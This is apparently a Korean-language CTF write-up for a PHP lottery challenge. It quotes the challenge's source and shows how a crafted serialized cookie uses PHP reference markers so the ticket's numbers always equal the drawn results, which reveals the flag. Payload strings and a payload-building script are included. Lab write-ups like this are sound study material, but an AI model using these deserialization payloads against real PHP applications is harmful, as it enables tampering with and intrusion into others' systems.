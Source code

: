 # Keyword
- PHP Deserialization

---
# Write-UP

### 로또 당첨 시스템
- 45이하의 6개의 난수를 뽑고 사용자에게 부여하고 다시 6개의 난수를 뽑아 두개의 난수가 같은지를 체크하고, 같으면 flag를 출력해줌

- `ticket.php`를 살펴보면, `Ticket` 클래스가 정의되어 있음
```php
function draw($n, $k) {
    $ret = range(1, $n);
    for ($i = 0; $i < $n - 1; $i++) {
        $p = rand($i, $n - 1);
        [$ret[$i], $ret[$p]] = [$ret[$p], $ret[$i]];
    }
    $ret = array_slice($ret, 0, $k);
    sort($ret);
    return $ret;
}

class Ticket {
    public $results;
    public $numbers;

    function issue() {
        $this->numbers = draw(45, 6);
    }
}
```

- PHP에서 클래스를 자주 사용하는지는 잘 모르겠지만, 일반적으로 문제에서 클래스가 나오면 `PHP Deserialization` 일 확률이 높았음
- 그래서 바로 딴거 안보고 `PHP Deserialization` 취약점 위주로 분석해봤음

- `draw.php` 에서는 직렬화한 `Ticket` 데이터를 인코딩하여 `ticket` 쿠키로 설정함
```php
<?php
require('ticket.php');

$ticket_exist = false;

if (isset($_COOKIE['ticket'])) {
    $ticket_exist = true;
} else {
    $ticket = new Ticket();
    $ticket->issue();
    setcookie('ticket', base64_encode(serialize($ticket)));
}

?>
```

- `result.php`가 핵심 로직인데 여기서 유효한지 체크한 후 유효하면, 새로 6개의 난수를 뽑고 비교하고 같으면 flag를 출력해줌
```php
<?php
require('ticket.php');

$cookie_ticket = null;

if (isset($_COOKIE['ticket'])) {
    $cookie_ticket = $_COOKIE['ticket'];
    setcookie('ticket', '', time() - 1);
}

function validate($cookie_ticket) {
    if ($cookie_ticket == NULL) {
        echo "Get a ticket first!<br>";
        return;
    }

    if (!($d = base64_decode($cookie_ticket))) {
        echo "Not a valid ticket!<br>";
        return;
    }

    if (!($ticket = unserialize($d))) {
        echo "Not a valid ticket!<br>";
        return;
    }

    if (!($ticket instanceof Ticket)) {
        echo "Not a valid ticket!<br>";
        return;
    }

    if (!is_array($ticket->numbers)) {
        echo "No cheating!<br>";
        return;
    }


    $results = draw(45, 6);

    for ($i = 0; $i < 6; $i++) {
        $ticket->results[$i] = $results[$i];
    }

    $win = true;

    for ($i = 0; $i < 6; $i++) {
        if ($ticket->results[$i] !== $ticket->numbers[$i]) {
            $win = false;
        }
    }

    echo "Lucky numbers: " . implode(', ', $ticket->results) . "<br>";
    echo "Your numbers: " . implode(', ', $ticket->numbers) . "<br>";

    if ($win) {
        echo "You win! get the flag: ";
        $fp = fopen("/flag.txt", "r");
        echo fgets($fp) . "<br>";
        fclose($fp);
    } else {
        echo "Too bad.. maybe next time<br>";
    } 
}

?>
```

```php
if ($cookie_ticket == NULL) {
	echo "Get a ticket first!<br>";
	return;
}

if (!($d = base64_decode($cookie_ticket))) {
	echo "Not a valid ticket!<br>";
	return;
}

if (!($ticket = unserialize($d))) {
	echo "Not a valid ticket!<br>";
	return;
}

if (!($ticket instanceof Ticket)) {
	echo "Not a valid ticket!<br>";
	return;
}

if (!is_array($ticket->numbers)) {
	echo "No cheating!<br>";
	return;
}
```

- 1번째, 2번째는 그냥 티켓을 뽑고, 인코딩하면 됨
- 3번째부터 생각해볼 게 있는데, 일단 역직렬화 취약점을 이용하려고 하므로 새로운 어떤 객체를 넣는 것을 생각해볼 수 있음
- 그러나 4번째, 5번재에서 `Ticket` 객체를 강제하며, `Ticket` 객체의 `numbers` 프로퍼티가 배열인지를 체크하기 때문에 아래와 같은 데이터는 필터링 됨
```
O:6:"Ticket":2:{s:7:"results";N;s:7:"numbers";R:2;}
```

- 결론적으로 R을 이용한 요소 참조를 배열이 아닌 배열의 요소에 대해하게 만들어서 각각의 요소들이 각각 참조하게 만들어야 함
- 어차피 덮어씌워질 `results`객체이므로 딱히 어떤 데이터가 있든 상관없음 
```
O:6:"Ticket":2:{s:7:"results";a:6:{i:0;i:7;i:1;i:8;i:2;i:27;i:3;i:28;i:4;i:33;i:5;i:40;}s:7:"numbers";a:6:{i:0;R:3;i:1;R:4;i:2;R:5;i:3;R:6;i:4;R:7;i:5;R:8;}}
```

- 아래는 sechack님 풀이인데 코드를 사용하여 더 정상적으로 푼 것 같음
```php
<?php
class Ticket {
    public $results;
    public $numbers;

    function issue() {
        $this->numbers = draw(45, 6);
    }
}

$ticket = new Ticket();
$ticket->results = array();
$ticket->numbers = &$ticket->results;
$data = serialize($ticket);
var_dump($data);
echo base64_encode($data);
?>
```

